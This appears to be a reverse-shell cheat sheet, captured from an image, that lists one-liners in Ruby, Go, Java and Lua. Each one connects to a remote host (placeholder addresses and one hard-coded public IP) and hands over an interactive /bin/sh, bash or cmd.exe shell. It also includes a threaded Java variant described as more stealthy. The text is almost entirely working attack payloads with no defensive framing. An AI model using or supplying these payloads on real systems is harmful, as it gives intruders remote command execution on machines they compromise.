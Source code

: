 **ruby**
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**Golang**
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

**java**

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/202.103.243.122/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- **Java Alternative 1**
    ```java
    String host="127.0.0.1";
    int port=4444;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```

- **Java Alternative 2**

    **NOTE**: This is more stealthy

    ```java
    Thread thread = new Thread(){
        public void run(){
            // Reverse shell here
        }
    }
    thread.start();
    ```

**lua**
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
```bash
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
